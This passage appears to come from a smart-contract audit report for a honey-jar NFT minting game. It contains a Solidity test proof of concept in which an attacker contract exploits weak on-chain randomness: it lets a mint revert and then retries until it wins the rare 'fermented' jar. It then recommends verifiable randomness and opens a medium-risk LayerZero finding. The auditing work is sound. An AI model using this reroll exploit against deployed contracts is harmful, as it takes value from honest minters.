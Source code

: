 Coded POC for the `Beekeeper.t.sol `:

```solidity
    function testReroll() public {
        address alice = address(0xa11cE);
        Reroll reroll = new Reroll(beekeeper);

        vm.deal(alice, 100 ether);
        vm.deal(address(reroll), 100 ether);

        _puffPuffPassOut();
        uint256 newSleepers = 10;
        uint256 mintAmount = 100;
        uint256[] memory checkpoints = new uint256[](3);
        checkpoints[0] = 20;
        checkpoints[1] = 40;
        checkpoints[2] = mintAmount;

        // Set the game
        gameRegistry.stopGame(address(beekeeper));
        beekeeper.setCheckpoints(0, checkpoints);
        beekeeper.setNumSleepers(newSleepers);
        gameRegistry.startGame(address(beekeeper));

        // First minter
        vm.prank(alice);
        beekeeper.mekHoneyJarWithETH{value: MINT_PRICE_ETH * 19}(19);
        // Second minter will get the fermented jar even though Alice has 19 jars
        vm.warp(1);
        vm.startPrank(address(reroll));
        reroll.setOffset(1);
        vm.expectRevert("YIKES");
        beekeeper.mekHoneyJarWithETH{value: MINT_PRICE_ETH}(1);
        // Try again
        vm.warp(2);
        uint256 minted = beekeeper.mekHoneyJarWithETH{value: MINT_PRICE_ETH}(1);
        assertEq(honeyJar.isFermented(minted), true);
    }
```

**Recommendations**

Consider generating random numbers off-chain, either using services like Chainlink VRF or using your own internal server.

## Medium Risk
### [M-04] The user can temporarily block the `HoneyJar` contract from receiving LZ messages

**Severity**

**Impact:** Medium
